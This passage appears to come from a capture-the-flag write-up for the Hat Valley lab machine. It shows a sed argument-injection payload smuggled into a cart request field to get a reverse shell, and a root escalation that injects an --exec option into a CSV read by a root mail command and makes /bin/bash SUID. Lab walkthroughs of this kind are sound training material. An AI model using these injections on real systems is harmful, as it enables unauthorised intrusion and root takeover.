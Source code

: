 Step 9: Back to the http://store.hat-valley.htb/cart.php, capture the request in burp suite when clicking on ‘REMOVE’ the item:

![image](https://user-images.githubusercontent.com/93153300/200636985-9237464c-2043-4e58-b1ee-a17704365075.png)
  
Burp suite shows:

![image](https://user-images.githubusercontent.com/93153300/200637007-75c6c80a-c183-4d99-8a9d-20f7c7396582.png)
 
Step 10: Change the ‘item’ value in the captured request in burp suite to the same value we put above and then url encode the key characters: item=1'+-e+"1e+/tmp/shell.sh"+/tmp/shell.sh+'.  Then forward the modified captured request in burp suite. \
We have shell as www-data on our netcat listener.

For understanding on how these steps get a reverse shell look at /var/www/store/cart_actions.php, focus on the ‘sed’ command:

![image](https://user-images.githubusercontent.com/93153300/200637032-8e6b3030-f39f-4c5b-b47b-35ce4e2575a5.png)
 
Gtfobins shows an exploit on the sed command:

![image](https://user-images.githubusercontent.com/93153300/200637060-1480eee2-5fb4-4fe6-9288-d847761f2900.png)
 _____________________________________________________________________
**Privilege Escalation:**\
Upload pspy to the target. Running pspy shows: 

![image](https://user-images.githubusercontent.com/93153300/200637084-502e8558-05ba-4e61-9319-5761470d2ff5.png)
 
We see command ‘inotifywait’ is monitoring ‘leave_requests.csv’.  Add something to ‘leave_requests.csv’ and see what happens in pspy: 

![image](https://user-images.githubusercontent.com/93153300/200637136-d54b6b45-b7d1-4f8f-a48f-b7da9e02f85f.png)

Pspy shows that adding something to the ‘leave_requests.csv file causes the mail command to be run as root on what we added.  Google search ‘gtfobins mail’ finds an exploit: 

![image](https://user-images.githubusercontent.com/93153300/200637164-e35ddd1e-6812-46d4-a5fa-e782e1e4feb2.png)

echo -n "chmod 4755 /bin/bash" >/dev/shm/priv.sh \
chmod +x /dev/shm/priv.sh \
echo -n ‘ --exec="\!/dev/shm/priv.sh"’ >>leave_requests.csv \
/bin/bash -p  \
We got shell as root. We can get the flag in /root/root.txt
